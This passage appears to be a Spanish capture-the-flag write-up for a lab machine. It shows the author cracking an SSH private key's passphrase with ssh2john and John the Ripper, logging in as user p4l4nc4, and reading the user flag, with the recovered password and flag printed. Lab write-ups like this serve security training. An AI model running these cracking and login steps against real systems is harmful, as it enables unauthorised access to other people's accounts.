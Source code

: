 ```shell
ssh -i id_rsa p4l4nc4@<IP>
```

Pero veremos que nos pedira una contraseña, vamos a probar a intentar `crackear` dicha contraseña de esta forma.

```shell
ssh2john id_rsa > hash.ssh | john --wordlist=<WORDLIST> hash.ssh
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
friendster       (id_rsa)     
1g 0:00:00:14 DONE (2025-05-30 03:56) 0.06752g/s 43.21p/s 43.21c/s 43.21C/s mariah..pebbles
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Veremos que ha funcionado, por lo que vamos a probarla.

```shell
ssh -i id_rsa p4l4nc4@<IP>
```

Metemos como contraseña `friendster` y veremos que estaremos dentro.

Info:

```
p4l4nc4@192.168.5.31's password: 
Linux 4ng014 6.1.0-27-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.115-1 (2024-11-01) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Nov 13 17:10:08 2024 from 192.168.1.78
p4l4nc4@4ng014:~$ whoami
p4l4nc4
```

Vamos a leer la `flag` del usuario.

> user.txt

```
HMV{6cfb952777b95ded50a5be3a4ee9417af7e6dcd1}
```
